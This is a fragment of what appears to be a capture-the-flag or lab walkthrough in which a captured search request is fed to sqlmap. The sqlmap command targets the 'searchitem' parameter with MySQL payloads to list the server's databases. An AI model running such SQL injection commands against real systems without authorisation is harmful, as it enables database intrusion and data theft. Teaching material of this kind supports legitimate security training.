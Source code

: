 ```bash
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

searchitem=1
```

It's using **apache** and **php**, they are usually bundled with **mysql** 

![](../../attachment/be77e013156baa7e12e23745352fe535.png)

Specify `--dbms mysql` to filter unnecessary payloads to make sqlmap faster

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch --dbs
```

![](../../attachment/57942d674ab558f38747ad80dd6ac4fd.png)
